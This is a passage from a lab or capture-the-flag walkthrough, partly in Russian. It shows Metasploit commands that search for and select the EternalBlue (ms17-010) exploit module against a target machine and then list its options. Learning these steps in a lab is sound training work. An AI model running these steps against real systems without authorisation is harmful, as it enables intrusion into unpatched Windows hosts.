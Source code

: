 ### Question 5: Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)
Введем следующую команду, что найти в базе эксплойт для найденной нами ранее уязвимости **ms17-010**:
```sh
search ms17-010
```
![ScreenShot](screenshots/4.png)

exploit/windows/smb/ms17_010_eternalblue - именно то, что нам нужно
Далее выберем найденный эксплойт:
```sh
use 0
```
После этого устанавливаем payload (см. *Question 7*) и смотри опции при помощи команды
```sh
show options
```
![ScreenShot](screenshots/5.png)
